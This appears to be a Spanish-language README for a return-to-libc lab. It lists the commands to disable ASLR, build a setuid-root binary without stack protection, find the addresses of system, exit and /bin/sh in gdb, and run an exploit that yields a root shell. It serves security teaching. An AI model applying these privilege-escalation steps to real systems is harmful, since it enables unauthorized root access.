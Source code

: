 # return-to-libc
ataque return to libc
Requerimientos:
1.- Software de virtualizacion 
2.- Maquina virtual 

Pasos para hacer el Ataque:
1.- Arrancar el OS
      login: root
      password: root
2.- Crear un usuario
      # useradd -m -G root yeroen
      # passwd yeroen
              *deberas ingresar una contraseña*
      # exit
3.- Ingresar como usuario
      login: yeroen
      password: *contraseña ingresada*
4.- Tener los 3 documentos
      retlib.c
      getenv.c
      exploit.c
5.- Desactivamos la aleatorizacion de espacios de memoria como root
      $ su root
        password: root
      # sysctl -w kernel.randomize_va_space=0
      # gcc -fno-stack-protector -o retlib retlib.c
      # chmod 4755 retlib
      # exit
6.- Obtener las Direccione de "/bin/sh" , system y exit
      Para "/bin/sh":
            $ export MYSH=/bin/sh
            $ gcc -o getenv getenv.c
            $ ./getenv
            MYSH address is 0xb------- content /bin/sh
                *recordar esta direccion de "/bin/sh"*
      Para system y exit
            $ gdb retlib
            (gdb) b main
            (gdb) r
            (gdb) p system
            $1 = {<text variable, no debug info>} 0xb------- <system>
                *recordar esta direccion de system*
            $2 = {<text variable, no debug info>} 0xb------- <exit>
                *recordar esta direccion de exit*
            (gdb) q
            Quit anyway? (y or n) y
7.- Modificar el archivo exploit.c con las direcciones obtenidas
      $ nano exploit.c
8.- Conpilar y Ejecutar el archivo exploit.c
      $ gcc -o exploit exploit.c
      $ ./exploit
            *crea badfile*
      $ ./retlib
            *hacemos el ataque*
      #
            *y obtenemos un root shell*

